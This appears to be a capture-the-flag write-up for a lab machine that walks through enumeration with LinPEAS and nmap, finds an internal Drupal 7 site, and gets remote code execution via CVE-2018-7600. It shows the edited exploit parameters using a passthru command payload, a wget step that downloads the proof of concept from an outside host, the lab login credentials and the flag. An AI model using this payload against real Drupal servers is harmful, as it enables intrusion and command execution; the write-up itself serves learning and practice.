 	compromise the machine and get root.txt

	your entry point on 3.127.39.160 on port 20022 

	username: cybertalents

	pass: cybertalents

```sh
$ uname -a
# Linux 019fa6a677eb 5.4.0-1035-aws #37-Ubuntu SMP Wed Jan 6 21:01:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```sh
$ find / -perm -u=s 2>/dev/null
```
for SUID n0thing intersting :/

while scrolling on LinPEAS logs i got this :

	/usr/bin/nmap
	/usr/bin/nc
	/usr/bin/netcat
	/usr/bin/wget
	/usr/bin/curl
	/usr/bin/base64
	/usr/bin/python3
	/usr/bin/perl 

just little bit curious about nmap on ubuntu machine ;), so i checked for available interfaces throw `ifconfig` found 2 ifaces (`172.22.0.3`, `172.22.0.2`), running nmap on both and we see that `172.22.0.2` running an apache web server:

```sh
$ nmap -sV 172.22.0.2

# ...
# 80/tcp open  http    Apache httpd 2.4.10 ((Debian))
# ...
```

quick headers fetch :

```sh
$ curl -v -s http://172.22.0.2 1> /dev/null
```

	* Connected to 172.22.0.2 (172.22.0.2) port 80 (#0)
	> GET / HTTP/1.1
	> Host: 172.22.0.2
	> User-Agent: curl/7.68.0
	> Accept: */*
	> 
	* Mark bundle as not supporting multiuse
	< HTTP/1.1 200 OK
	< Date: Sat, 27 Feb 2021 19:54:36 GMT
	< Server: Apache/2.4.10 (Debian)
	< X-Powered-By: PHP/7.0.28
	< Expires: Sun, 19 Nov 1978 05:00:00 GMT
	< Cache-Control: no-cache, must-revalidate
	< X-Content-Type-Options: nosniff
	< Content-Language: en
	< X-Frame-Options: SAMEORIGIN
	< X-Generator: Drupal 7 (http://drupal.org)
	< Vary: Accept-Encoding
	< Content-Length: 7408
	< Content-Type: text/html; charset=utf-8

well now its clear as the sun we have a website running `Drupal 7` which vulnerable to RCE, found this poc [CVE-2018-7600](https://github.com/FireFart/CVE-2018-7600) , just change :

```python
# ...
HOST="http://172.22.0.2/"
# ...
get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'ls /; cat /root.txt', 'name[#type]':'markup'}
# ...
```
exploit :

```sh
$ wget http://domain.org/CVE-2018-7600-drupal.txt -O poc.py
$ python3 poc.py
```

__FLAG : c288f114adda37a242a5efb1c2637dc2__